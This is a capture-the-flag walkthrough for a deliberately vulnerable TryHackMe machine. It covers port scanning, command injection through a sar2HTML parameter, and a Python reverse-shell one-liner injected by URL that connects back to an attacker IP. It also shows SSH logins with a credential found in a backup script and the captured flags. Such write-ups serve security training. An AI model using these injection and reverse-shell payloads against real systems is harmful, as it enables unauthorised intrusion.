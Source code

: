 # BoilCTF

![image](https://user-images.githubusercontent.com/5285547/131184044-2e213c40-b969-470d-9a02-3da66a370f5b.png)

Room link: https://tryhackme.com/room/boilerctf2

## Enumeration

nmap 

```
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
10000/tcp open  snet-sensor-mgmt (Webmin)
55007/tcp open  unknown (ssh)
```

## Joomla (Port 80)

http://10.10.155.54/joomla/

## sar2HTML

http://10.10.155.54/joomla/_test/index.php?plot=;ls

Then check the host tab

![image](https://user-images.githubusercontent.com/5285547/131186188-10992302-2519-4494-8b70-f5f59488f38e.png)

Rev shell (python3)

```
http://10.10.155.54/joomla/_test/index.php?plot=;python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("IP",PORT));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'

10.8.153.120

http://10.10.86.171/joomla/_test/index.php?plot=;python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.8.153.120",9999));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'
```

![image](https://user-images.githubusercontent.com/5285547/131186300-61cb4fbd-3a14-4ea0-8d50-6820d5782d28.png)

log.txt

![image](https://user-images.githubusercontent.com/5285547/131187008-13b7d16a-3c85-4816-8f7a-365dafe42717.png)

## SSH

```
ssh basterd@10.10.86.171 -p 55007
```

## stoner (user)

/home/basterd/backup.sh

```
*clip

TARGET=/usr/local/backup

LOG=/home/stoner/bck.log
 
DATE=`date +%y\.%m\.%d\.`

USER=stoner
superduperp@$$no1knows

*clip
```

```
ssh stoner@IP -p 55007 
```

 * user.txt
  ```
  # cat .secret
  You made it till here, well done.
  ```

sudo -l

```
stoner@Vulnerable:~$ sudo -l
User stoner may run the following commands on Vulnerable:
    (root) NOPASSWD: /NotThisTime/MessinWithYa
```

* root.txt

```
# cat root.txt
It wasn't that hard, was it?
```

